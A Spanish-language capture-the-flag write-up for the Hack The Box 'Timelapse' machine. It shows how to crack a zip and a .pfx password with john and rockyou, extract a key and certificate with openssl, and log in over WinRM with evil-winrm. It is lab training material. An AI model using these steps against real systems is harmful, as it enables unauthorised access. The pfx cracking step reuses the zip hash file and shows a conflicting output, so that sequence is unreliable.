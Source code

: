 Disclaimer -> Este post está basado en practicas hechas con máquinas de la pltaforma Hack the box, están pensadas para la tecnica por ataque de diccionario con el diccionario rockyuu.txt, asi que estan sacadas de aquí para que funcione. En otro entorno puede que no funcione, (ejemplo contraseñas tipo "124wsf24yrf122rwef1q3r") 

----------------------------------------------------------------

# Archivos .zip

En la máquina [Timelapse] (https://app.hackthebox.com/machines/Timelapse) de htb nos hemos descargado un zip, pero está protegido con una contraseña.

```console
[cucuxii]-[~/Timelapse]:$ /usr/share/john/zip2john.py winrm_backup.zip > zip_hash
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: 2b chk, TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683
[cucuxii]-[~/Timelapse]:$ john zip_hash -w=/usr/share/wordlists/rockyou.txt 
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)
[cucuxii]-[~/Timelapse]:$ ls 
winrm_backup.zip    legacyy_dev_auth.pfx
```

----------------------------------------------------------------

# Archivos .pfx

En la máquina [Timelapse] (https://app.hackthebox.com/machines/Timelapse) me he topado con este archuivo, no tenia ni idea de que era hasta que investigué que es un archivo relacionado con temas de encriptación (como una llave).

```console
[cucuxii]-[~/Timelapse]:$ /usr/share/john/pfx2john.py ./legacyy_dev_auth.pfx > pfx_hash
[cucuxii]-[~/Timelapse]:$ john zip_hash -w=/usr/share/wordlists/rockyou.txt 
thuglegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)
```
Ya tenemos la contraseña del pfx ¿Y ahora que? Resulta ser que con la busqueda en google "pfx file" sale [esto](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file). Es decir, podemos crear certificados y llaves para conectarnos por el servicio de control remoto de windows "winrm". Te pide contraseñas (tanto PEM como de la clave), es la que hemos sacado antes todo el rato "thuglegacy"

```console
[cucuxii]-[~/Timelapse]:$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out llave.key
[cucuxii]-[~/Timelapse]:$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacy.cert
```
Pero para poder usarlas todavía queda hacer cierta cosa; quitar las cabeceras que te pone. Es decir todo lo que está antes de "----BEGUIN ENCRYPTED PRIVATE KEY----" y "-----BEGIN CERTIFICATE-----", asi se quedan limpias.

```console
evil-winrm -S -k llave.key -c legacy.cert -i 10.10.11.152
```
